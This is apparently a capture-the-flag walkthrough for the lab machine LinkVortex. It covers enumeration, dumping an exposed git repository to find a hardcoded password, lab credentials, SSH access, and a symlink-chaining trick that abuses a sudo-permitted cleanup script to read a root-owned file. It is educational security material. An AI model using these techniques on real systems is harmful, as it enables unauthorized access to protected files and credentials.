 ![](./Images/image-14.png)
> LinkVortex is a super cool machine that taught me that any information found in an enumeration can always be used elsewhere.

## Enumeration

We start with an nmap scan

![](./Images/image.png)

We have 02 ports open SSH and HTTP ports


**Web Enumeration**

![](./Images/image-1.png)

![](./Images/image-10.png)

Content of http://linkvortex.htb/robots.txt

```
User-agent: *
Sitemap: http://linkvortex.htb/sitemap.xml
Disallow: /ghost/
Disallow: /p/
Disallow: /email/
Disallow: /r/
```

![](./Images/image-6.png)

**Subdomain Enumeration via VHost**

![](./Images/image-2.png)

![](./Images/image-3.png)

![](./Images/image-4.png)

We dump the git reponse on web site using: https://github.com/arthaud/git-dumper


![](./Images/image-5.png)

```sh
grep -R 'const password' *
```

![](./Images/image-7.png)

Remember during the enumeration of the `linkvortex.htb` domain we discover the admin username on the `sitemap.xml` file

```
username: admin@linkvortex.htb
password: OctopiFociPilfer45
```

![](./Images/image-8.png)


Search for version vulnerability

![](./Images/image-9.png)

![](./Images/image-11.png)

![](./Images/image-12.png)

```
username: bob@linkvortex.htb,
password: fibber-talented-worth
```

```sh
└─$ ssh bob@linkvortex.htb
bob@linkvortex.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Apr  7 08:15:44 2025 from 10.10.14.54
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

Content of `clean_symlink.sh` file

```sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Exploitation

```sh
bob@linkvortex:~$ ln -s /root/root.txt flag.txt
bob@linkvortex:~$ ln -s /home/bob/flag.txt access.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/access.png
```

![](./Images/image-13.png)

This what happend when we call `access.png`

```sh
bob@linkvortex:~$ ll access.png flag.txt
lrwxrwxrwx 1 bob bob 18 Apr  7 08:28 access.png -> /home/bob/flag.txt
lrwxrwxrwx 1 bob bob 14 Apr  7 08:23 flag.txt -> /root/root.txt

# access.png -> flag.txt -> root.txt
```